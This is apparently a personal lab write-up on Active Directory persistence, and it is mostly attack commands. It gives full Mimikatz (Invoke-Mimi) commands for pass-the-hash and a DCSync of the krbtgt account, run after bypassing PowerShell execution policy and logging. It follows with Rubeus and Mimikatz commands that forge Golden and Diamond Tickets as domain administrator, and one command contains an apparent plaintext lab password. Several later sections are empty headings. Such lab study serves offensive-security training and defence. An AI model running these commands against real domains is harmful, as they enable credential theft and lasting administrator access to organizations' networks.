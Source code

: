 ## Quelque techiniques de persistence
After gaining domain admin privileges, attackers generaly focus on maintaining their
level of access over time. They employ various persistence techniques that allow them
to regain domain admin privileges whenever they want, potentially for months or even
years. In this lab i will explore:
- Golden Ticket
- Diamond Ticket
- AdminSDHolder
- Remote Services/Protocoles SD


### Golden Ticket
##### dcsync
With the da credentials with start a new process and perform a dcsync attack to extrat the credentials of the krbtgt account (the account of the Key Distribution Center Sservice).<br>
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:itmanager /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
![alt text](assets/persistence/pth.png)<br>

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:corp\krbtgt" "exit"'
```
![alt text](assets/persistence/dcsync.png)<br>

##### DA tgt forging using low user
We use  the krbtgt account aes key to forge TGT for any user. Since the krbtgt accound passord is not often change this techique can allow the attacker to maintain his access for long periods...<br>

```powershell
C:\AD\Tools\Rubeus.exe golden /aes256:<> /sid:<> /ldap /user:Administrator /printcmd
```
![alt text](assets/persistence/golden1.png)<br>
![alt text](assets/persistence/golden3.png)<br>
![alt text](assets/persistence/golden4.png)<br>

```powershell
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:<> 
/aes256:<> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
![alt text](assets/persistence/golden2.png)<br>
![alt text](assets/persistence/golden5.png)<br>

### Diamond Ticket
One thing to always remember is that a Golden Ticket is a forged ticket, meaning there is no interaction with the KDC (Key Distribution Center). This can be detected by the Blue Team by monitoring for an AS-REP without a corresponding AS-REQ.<br>
In contrast, the Diamond Ticket is more OPSEC-safe. In this attack, we first request a legitimate TGT (Ticket Granting Ticket) from the KDC. Then, using the krbtgt hash, we decode the TGT, modify it, and re-encode it before using it.


##### using the curent user security context (tgtdeleg)
```powershell
C:\AD\Tools\Rubeus.exe diamond /krbkey:<> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:corp.local /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

##### using user/password
```powershell
C:\AD\Tools\Rubeus.exe -args %Pwn% /krbkey:<> /user:stdent163 /password:UE6pj7HvkSgrGR92 /enctype:aes /ticketuser:administrator /domain:corp.local  /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /pt
```

### AdminSDHolder


### Remote Services/Protocoles SD

##### Remote Registry

##### Remote WMI


##### Powershell Remoting


### DSRM



### Custom Security Support Provider (SSP)


### 